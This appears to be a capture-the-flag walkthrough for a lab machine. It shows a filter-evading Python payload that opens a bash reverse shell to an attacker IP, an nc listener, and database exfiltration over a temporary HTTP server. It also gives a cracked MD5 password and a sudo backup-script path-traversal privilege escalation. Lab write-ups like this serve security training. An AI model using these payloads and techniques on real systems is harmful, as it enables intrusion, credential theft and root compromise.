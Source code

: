 found a  python gunicorn service runnning on 5000 port 

go on it , you find a python interpreter that filter some strings we could use to gain rce , informating about the technology , i came across , Ace 1.4.12 
	As it said , it has some vulns allows to do arbritary code execution

	from a specific internet forum , i got 
module%20%3d%20globals()%5b'o'%2b's'%5d%0acommand%20%3d%20getattr(module%2c%20'sy'%2b'stem')%0acommand('bash%20-c%20%.txt22bash%20-i%20%3e%26%20%2fdev%2ftcp%2f[ip]%2f9001%200%3e%261%22')%20

so intercept the run button request in burp and replace the value of variable code by the payload given above , and seting up a nc listenner 
you got a user flag

enumerating using linpeas , i saw some app running and it's folder is dropped in the user we are directory 

	so you'll find a database file in /home/app-production/app/instance/database.db
	donwload it to your machine 

	on target machine: run in the folder were the database is : python3 -m http.server 
	#it will start a local python server on 8000 port by default 

	on your machine :	wget http://IP:PORT/database.db

Open it using sqlite databse browser , and view in the user's table ; you'll see users development and martin , 
	in /home folder is a user named martin , so take his pass hash and decode it 
	it md5 one 
		martin : nafeelswordsmaster


log using ssh now  martin@IP  ; pass the password , get connected 
 
			for root once you connected 
			sudol -l 

	privesc 
		cat > /home/martin/backups/task.json << EOF
{
  "destination": "/home/martin/backups/",
  "multiprocessing": true,
  "verbose_log": true,
  "directories_to_archive": [
    "/var/....//root/"
  ]
}
EOF


so run now : sudo /usr/bin/backy.sh /home/martin/backups/task.json

go now onto /home/martin/backups/
	ls -la , you'll see backups files , download them , unzip them and enjoy the root flag 

	ls -l
	wget http://IP:PORT/code_var_.._root_2025_March.tar.bz2
	
	tar -xvjf code_home_martinbackups*.tar.bz2
	cat root/root.txt

